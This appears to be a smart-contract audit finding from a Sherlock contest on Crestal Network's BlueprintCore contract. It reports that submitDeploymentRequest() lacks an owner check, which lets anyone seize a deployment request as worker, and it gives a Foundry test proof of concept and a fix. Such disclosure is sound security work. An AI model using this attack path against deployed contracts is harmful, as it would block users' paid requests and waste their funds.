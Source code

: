Wild Champagne Griffin

High

# Deployed request can be blocked from getting generated proof OR/AND getting an invalid proof at no cost to the attacker.

### Summary

The missing check of deployed request owner in submitDeploymentRequest() can simply render a request invalid (not getting a valid worker to submit a proof)

### Root Cause

In submitDeploymentRequest [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L607-L616](url), there is no requirement that the function caller is the owner of the requestId.

### Internal Pre-conditions

1. User creates an agent using either createAgentWithToken(), createAgentWithTokenWithSig(), createAgentWithNFT(), createAgentWithWhitelistUsers(), createAgentWithWhitelistUsersWithSig() OR createAgentWithSigWithNFT.

### External Pre-conditions

None

### Attack Path

1. Atacker calls submitDeploymentRequest() and updates deployment request status and deployWorkerAddr with his own address. This action is carried out with no loss to the attacker.

### Impact

This renders such agent invalid, as the owner can't update the status or the worker, since the attacker has updated the status of the requestId to `Status.Pickup` [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L619](url)

If deployed request owner tries adding its own worker - he gets this error [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L610-L612](url)

If the agent was created with a payment of ERC20Tokens, such funds were just wasted, as the request can never get a valid generated proof submitted.

### PoC

```solidity
    function test_AttackerInvalidateAnyRequestByAssigningWorkerAndSubmittingWrongProof() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));


        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // create agent with token and non zero cost
        bytes32 requestId = blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));

        //Attacker gets requestId and updates the status and assign self as worker
        vm.startPrank(address(1));
        blueprint.submitDeploymentRequest(projectId, requestId);
        vm.stopPrank();

        //a valid worker tries to be assigned to a deployed request
        blueprint.submitDeploymentRequest(projectId, requestId);
    }
```

The above test will result - [FAIL: revert: requestID already picked by another worker, try a different requestID]

Attacker can become worker to a requestId as soon as it has been deployed and submit wrong proof OR stop a requestId from having a valid worker.

### Mitigation

1. Add

 `require(deploymentOwners[requestID] == msg.sender, "Only deployment owner can update config");`

after [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L608](url)

This will make sure, no other user can set a worker for a request., except the owner.

2. if workers can pick any request at their will, then it has to be whitelisted workers, so that only trusted workers can pick a request and work on generating proof to it. 

There is function to add workers public address setWorkerPublicKey() [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L689-L695](url)

This function should be restricted to onlyOwner, and then check that worker that wants to pick a request has its address in this workerAddressesMp[WORKER_ADDRESS_KEY].